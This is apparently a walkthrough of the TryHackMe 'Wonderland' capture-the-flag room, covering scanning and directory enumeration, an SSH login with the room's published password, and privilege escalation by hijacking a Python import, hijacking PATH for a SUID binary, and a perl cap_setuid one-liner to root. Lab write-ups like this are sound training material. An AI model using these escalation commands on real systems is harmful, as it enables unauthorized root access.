# Wonderland Room ; https://tryhackme.com/room/wonderland

## Overview

This walkthrough demonstrates how the **Wonderland** challenge on TryHackMe was solved. The room simulates a realistic penetration testing scenario in a legal and controlled Capture The Flag (CTF) environment.

---

## Reconnaissance

The first step was to identify the open services running on the target machine.

### Nmap Scan

```bash
sudo nmap -sS -sV <TARGET_IP>
````

The scan revealed three open ports:

| Port | Service |
| ---- | ------- |
| 22   | SSH     |
| 80   | HTTP    |



Since web services were available, the next step was to investigate the website.

---

## Web Enumeration

After opening the target in a browser, the homepage displayed only a image and a message.



we see an ambogies sentince "Follow the White Rabbit".

### Directory Enumeration

We used gobuster to enumerate hidden directories:

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```



Several interesting paths were discovered:

```text
/r
```

if repated this url with add subdomain /r then /a the char of word rabbit in the same sort we will get : http://<TARGET_IP>/r/a/b/b/i/t
then open the source code of this page; I'm finding a username and password for account



Alternatively:

```bash
dirb http://<TARGET_IP>
```
---

## connect by SSH

after get the username and password 

```bash
ssh alice@<TARGET_IP>
password : HowDothTheLittleCrocodileImproveHisShiningTail
```



----

## Privilege Escalation

Check sudo permissions:

```bash
sudo -l
```

Thing useful was found.
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
we can use python3.6 by user rabbit without password



now how to exploit :
Read file "/home/alice/walrus_and_the_carpenter.py" at first. 
at first line can see "import random" this is very important thing because when python import liberary that search at first at the same path "/home/alice/???"



so create file with same name type python 

```bash
nano random.py
```

the exploit code inside it 

```python
import os
os.system("/bin/bash")
```

now make run to the file /home/alice/walrus_and_the_carpenter.py

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```



have a shell with as rabbit user but this is also low permision
continue

we find a file have SUID permision at path "/home/rabbit" with name "teaParty"
try to read it by "cat" but nothing useful can understanding, try with methods such as "strings" but is not install.
so i search and find this command to read this file



```bash
awk 'BEGIN {FS="[^[:print:]]+"} {for(i=1;i<=NF;i++) if(length($i)>=4) print $i}' teaParty
```



this is important line 
" /bin/echo -n 'Probably by ' && date --date='next hour' -R "
file date is called without special path

go to /tmp and create file, and write inside it "/bin/bash"
and change enviroment variable "$PATH" to search first at /tmp

```bash
cd /tmp
echo "/bin/bash" > date
chmod +x date
export PATH=/tmp:$PATH
```
now return to file teaParty and run it

```bash
cd /home/rabbit
./teaParty
```

have a shell with as hatter user but this is also not high permision



go to path "/home/hatter" and see file and directry, I'm finding a file with name "password.txt" it cotain a password of hatter user
password = "WhyIsARavenLikeAWritingDesk?"



try by 

```bash
sudo -l
getcap -r / 2>/dev/null
```



result have two service with "cap_setuid+ep" can use it 
we will exploit by the "/usr/bin/perl"

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

if get "bash: /usr/bin/perl: Permission denied"
reconnect by ssh as user hatter (password we found)



final we be a root 

---

get flags




---
